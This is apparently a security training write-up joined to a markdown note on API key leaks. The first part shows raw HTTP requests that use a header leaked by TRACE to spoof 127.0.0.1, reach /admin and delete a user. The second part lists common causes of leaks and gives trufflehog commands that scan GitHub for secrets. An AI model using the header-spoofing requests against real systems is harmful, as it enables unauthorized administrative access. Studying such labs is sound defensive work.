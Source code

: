 After logging in, send a request with the TRACE HTTP method, which reveals the header “X-Custom-IP-Authorization”:
![image](https://github.com/user-attachments/assets/a2d7fc98-b0a8-4520-aba9-48f6645213ef)
It is possible to access /admin with:
```
GET /admin HTTP/2
...
X-Custom-Ip-Authorization: 127.0.0.1
```
![image](https://github.com/user-attachments/assets/6adc9f6e-9d48-4529-9d5b-5e2138f31296)
And then delete the user with:
```
GET /admin/delete?username=carlos HTTP/2
...
X-Custom-Ip-Authorization: 127.0.0.1
```
![image](https://github.com/user-attachments/assets/409feb4b-ed8d-45dd-9348-625d13a5cc0d)

---
## API Key and Token Leaks

```markdown
# API Key and Token Leaks

## Common Causes of Leaks

- **Hardcoding in Source Code**: Developers may unintentionally leave API keys or tokens directly in the source code.
- **Public Repositories**: Accidentally committing sensitive keys and tokens to publicly accessible version control systems like GitHub.
- **Hardcoding in Docker Images**: API keys and credentials might be hardcoded in Docker images hosted on DockerHub or private registries.
- **Logs and Debug Information**: Keys and tokens might be inadvertently logged or printed during debugging processes.
- **Configuration Files**: Including keys and tokens in publicly accessible configuration files (e.g., `.env` files, `config.json`, `settings.py`, or `.aws/credentials`).

## Scan a GitHub Organization

To scan an entire GitHub organization for leaks, run the following command:

```bash
docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --org=trufflesecurity
```

## Scan a GitHub Repository, its Issues, and Pull Requests

To scan a GitHub repository including its issues and pull requests, run:

```bash
docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --repo https://github.com/trufflesecurity/test_keys --issue-comments --pr-comments
```
